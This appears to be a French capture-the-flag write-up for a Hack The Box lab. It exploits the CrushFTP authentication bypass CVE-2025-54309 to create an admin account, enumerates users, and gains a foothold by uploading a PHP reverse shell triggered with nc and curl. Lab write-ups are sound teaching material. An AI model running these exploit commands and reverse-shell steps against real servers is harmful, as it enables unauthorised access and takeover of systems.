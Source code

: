 **Détails de la vulnérabilité :**
- Affecte les versions < 10.8.5 et < 11.3.4_23
- Race condition permettant un bypass d'authentification via l'exploitation d'une mauvaise validation AS2
- Permet l'accès admin via HTTPS/HTTP

### Reconnaissance avec l'outil watchTowr

```bash
python watchTowr-vs-CrushFTP-CVE-2025-54309.py http://ftp.soulmate.htb
```

**Résultat :**
```
[*] VULNERABLE! RACE CONDITION POSSIBLE!
[*] EXFILTRATED 5 USERS: ben, crushadmin, default, jenna, TempAccount
```

### Exploitation - Création d'un utilisateur admin

```bash
python exploit.py http://ftp.soulmate.htb
```

**Résultat :**
```
[+] SUCCESS! User 'htbadmin' created successfully!
[+] Admin user created: htbadmin:HTBPassword123!
```

**Connexion :** `http://ftp.soulmate.htb/WebInterface/`
- Username : `htbadmin`
- Password : `HTBPassword123!`

---

## Accès initial (www-data)

### Modification du mot de passe de Ben

Dans l'interface CrushFTP, nous avons les privilèges pour modifier les mots de passe des utilisateurs. On découvre que **Ben** a accès au site principal et dispose d'un fichier `shell.php`.

### Reverse shell

1. **Préparation du payload :**
   - Téléchargement de MonkeyShell (ou tout autre reverse shell PHP)
   - Renommage en `shell.php`
   - Configuration : IP attaquant + port 4444

2. **Upload via CrushFTP** (en tant que Ben)

3. **Déclenchement :**
   ```bash
   nc -lvnp 4444
   curl http://soulmate.htb/shell.php
   ```
